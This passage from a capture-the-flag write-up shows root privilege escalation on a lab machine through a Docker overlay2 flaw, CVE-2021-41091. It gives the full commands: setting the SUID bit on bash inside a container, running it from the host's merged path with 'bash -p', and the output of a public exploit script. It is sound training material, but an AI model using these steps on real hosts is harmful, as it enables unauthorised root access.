├─/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
│                                     overlay     overlay     rw,relatime,lowerdir=/var/lib/docker/overlay2/l/4Z77R4WYM6X4BLW7GXAJOAA4SJ:/var/lib/docker/ov
└─/var/lib/docker/containers/50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e/mounts/shm
                                      shm         tmpfs       rw,nosuid,nodev,noexec,relatime,size=65536k
marcus@monitorstwo:~$ 
```

The important mounts are those under `/var/lib/docker/overlay2`. We can see two directories for our two containers. Which we can access:
```
marcus@monitorstwo:~$ ls -al /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
total 76
drwxr-xr-x 1 root root 4096 Jan  5  2023 .
drwx-----x 5 root root 4096 Sep 19 12:57 ..
lrwxrwxrwx 1 root root    7 Dec  6  2022 bin -> usr/bin
dr-xr-xr-x 2 root root 4096 Mar 22 13:21 boot
drwxr-xr-x 1 root root 4096 Jan  5  2023 dev
drwxr-xr-x 2 root root 4096 Dec  7  2022 docker-entrypoint-initdb.d
-rwxr-xr-x 1 root root    0 Jan  5  2023 .dockerenv
lrwxrwxrwx 1 root root   34 Dec  7  2022 entrypoint.sh -> usr/local/bin/docker-entrypoint.sh
drwxr-xr-x 1 root root 4096 Jan  5  2023 etc
drwxr-xr-x 2 root root 4096 Mar 22 13:21 home
lrwxrwxrwx 1 root root    7 Dec  6  2022 lib -> usr/lib
lrwxrwxrwx 1 root root    9 Dec  6  2022 lib64 -> usr/lib64
drwxr-xr-x 2 root root 4096 Mar 22 13:21 media
drwxr-xr-x 2 root root 4096 Mar 22 13:21 mnt
drwxr-xr-x 2 root root 4096 Mar 22 13:21 opt
dr-xr-xr-x 2 root root 4096 Mar 22 13:21 proc
dr-xr-x--- 1 root root 4096 Dec  7  2022 root
drwxr-xr-x 1 root root 4096 Dec  7  2022 run
lrwxrwxrwx 1 root root    8 Dec  6  2022 sbin -> usr/sbin
drwxr-xr-x 2 root root 4096 Mar 22 13:21 srv
dr-xr-xr-x 2 root root 4096 Mar 22 13:21 sys
drwxrwxrwt 1 root root 4096 Sep 19 12:57 tmp
drwxr-xr-x 1 root root 4096 Dec  6  2022 usr
drwxr-xr-x 1 root root 4096 Dec  6  2022 var
marcus@monitorstwo:~$ 
```

To find out which directory belongs to which container, we can hop into the container again and validate the path:
```
mount
overlay on / type overlay (rw,relatime,lowerdir=/var/lib/docker/overlay2/l/4Z77R4WYM6X4BLW7GXAJOAA4SJ:/var/lib/docker/overlay2/l/Z4RNRWTZKMXNQJVSRJE4P2JYHH:/var/lib/docker/overlay2/l/CXAW6LQU6QOKNSSNURRN2X4JEH:/var/lib/docker/overlay2/l/YWNFANZGTHCUIML4WUIJ5XNBLJ:/var/lib/docker/overlay2/l/JWCZSRNDZSQFHPN75LVFZ7HI2O:/var/lib/docker/overlay2/l/DGNCSOTM6KEIXH4KZVTVQU2KC3:/var/lib/docker/overlay2/l/QHFZCDCLZ4G4OM2FLV6Y2O6WC6:/var/lib/docker/overlay2/l/K5DOR3JDWEJL62G4CATP62ONTO:/var/lib/docker/overlay2/l/FGHBJKAFBSAPJNSTCR6PFSQ7ER:/var/lib/docker/overlay2/l/PDO4KALS2ULFY6MGW73U6QRWSS:/var/lib/docker/overlay2/l/MGUNUZVTUDFYIRPLY5MR7KQ233:/var/lib/docker/overlay2/l/VNOOF2V3SPZEXZHUKR62IQBVM5:/var/lib/docker/overlay2/l/CDCPIX5CJTQCR4VYUUTK22RT7W:/var/lib/docker/overlay2/l/G4B75MXO7LXFSK4GCWDNLV6SAQ:/var/lib/docker/overlay2/l/FRHKWDF3YAXQ3LBLHIQGVNHGLF:/var/lib/docker/overlay2/l/ZDJ6SWVJF6EMHTTO3AHC3FH3LD:/var/lib/docker/overlay2/l/W2EMLMTMXN7ODPSLB2FTQFLWA3:/var/lib/docker/overlay2/l/QRABR2TMBNL577HC7DO7H2JRN2:/var/lib/docker/overlay2/l/7IGVGYP6R7SE3WFLYC3LOBPO4Z:/var/lib/docker/overlay2/l/67QPWIAFA4NXFNM6RN43EHUJ6Q,upperdir=/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/diff,workdir=/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/work,xino=off)

[...]
```
`/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1` seems to be the correct one.

### Prepare the privilege escalation
To make use of this, we need a file with a SUID bit set, which can lead us to privileged rights. If we already have root rights on the container, we can just add the SUID bit to `/bin/bash`.

Remembering that we already escalated our privs in the container, we can prepare the bash binary:
```
capsh --gid=0 --uid=0 --

id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
chmod +s /bin/bash
ls -al /bin/bash
-rwsr-sr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```

### Escalate privileges
The last thing we have to do, is to hop into the directory and run that modified bash:
```
marcus@monitorstwo:~$ cd /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged$ ./bin/bash -p
bash-5.1# id
uid=1000(marcus) gid=1000(marcus) euid=0(root) egid=0(root) groups=0(root),1000(marcus)
bash-5.1# 
```

### Using script
To speed things up, we can also use a script. I used the following PoC: https://github.com/UncleJ4ck/CVE-2021-41091

This iterates over the `/var/lib/docker/overlay2` directories found by `findmnt` and tries to execute the modified `/bin/bash`. For our case, this would look like this:
```
marcus@monitorstwo:~$ ./exploit.sh 
[!] Vulnerable to CVE-2021-41091
[!] Now connect to your Docker container that is accessible and obtain root access !
[>] After gaining root access execute this command (chmod u+s /bin/bash)

Did you correctly set the setuid bit on /bin/bash in the Docker container? (yes/no): yes
[!] Available Overlay2 Filesystems:
/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged

[!] Iterating over the available Overlay2 filesystems !
[?] Checking path: /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
[x] Could not get root access in '/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged'

[?] Checking path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[!] Rooted !
[>] Current Vulnerable Path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[?] If it didn't spawn a shell go to this path and execute './bin/bash -p'

[!] Spawning Shell
bash-5.1# exit
marcus@monitorstwo:~$ cd /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged$ ./bin/bash -p
bash-5.1# id
uid=1000(marcus) gid=1000(marcus) euid=0(root) egid=0(root) groups=0(root),1000(marcus)
bash-5.1# 
```

## Root flag
With the escalated root privileges, we can finally grab the root flag and complete the machine:
```
bash-5.1# ls -al /root/
total 36
drwx------  6 root root 4096 Mar 22 13:21 .
drwxr-xr-x 19 root root 4096 Mar 22 13:21 ..
lrwxrwxrwx  1 root root    9 Jan 20  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwx------  2 root root 4096 Mar 22 13:21 .cache
drwxr-xr-x  2 root root 4096 Mar 22 13:21 cacti
drwxr-xr-x  3 root root 4096 Mar 22 13:21 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-r-----  1 root root   33 Sep 19 12:57 root.txt
drwx------  2 root root 4096 Mar 22 13:21 .ssh
bash-5.1# cat /root/root.txt 
3f0d9ea0b9085afda4917a56b401d3cb
bash-5.1# 
```